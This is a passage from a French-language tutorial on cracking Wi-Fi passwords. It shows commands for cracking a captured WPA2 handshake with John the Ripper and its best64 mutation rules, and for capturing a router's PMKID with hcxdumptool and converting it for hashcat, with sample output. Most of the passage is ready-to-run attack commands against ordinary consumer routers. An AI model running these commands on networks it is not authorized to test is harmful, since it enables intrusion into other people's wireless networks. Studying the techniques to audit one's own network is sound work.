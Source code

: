 #### **Attaque avec règles John the Ripper**
```bash
# Convertir handshake pour John the Ripper
hccap2john handshake_capture-01.cap > hash_john.txt

# Crack avec règles de mutation
john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 hash_john.txt

# RÈGLES BEST64 appliquent mutations :
# password → Password, password1, password!, drowssap, etc.

# Voir résultat  
john --show hash_john.txt
```

## 🎭 Attaques PMKID (WPA2 sans handshake)

### **Principe attaque PMKID**
```bash
# PMKID = Pairwise Master Key Identifier  
# Vulnérabilité découverte en 2018 par Jens Steube (hashcat)

AVANTAGE PMKID :
✅ Pas besoin d'attendre handshake client
✅ Une seule requête au point d'accès
✅ Plus discret que déauthentification
✅ Fonctionne même sans clients connectés

LIMITATION :
❌ Tous routeurs ne supportent pas
❌ Certains ont patché la vulnérabilité
❌ Toujours bruteforce dictionnaire après
```

### **Capture PMKID avec hcxdumptool**
```bash
# Installation hcxtools
sudo apt install hcxtools

# Capture PMKID
sudo hcxdumptool -i wlan1mon -o pmkid_capture.pcapng --enable_status=1

# SORTIE PENDANT CAPTURE :
INTERFACE.......: wlan1mon
MAC CLIENT......: a0:b1:c2:d3:e4:f5
MAC AP..........: 11:22:33:44:55:66
PMKID...........: 2582a8281bf9d96e5b5ad23b4a5e7a4e
ESSID...........: BBOX-12345678

# PMKID capturé ! Arrêter avec Ctrl+C

# Convertir au format hashcat
hcxpcapngtool -o pmkid_hashes.txt pmkid_capture.pcapng

# Fichier pmkid_hashes.txt contient :
2582a8281bf9d96e5b5ad23b4a5e7a4e*112233445566*a0b1c2d3e4f5*424248532d3132333435363738
```
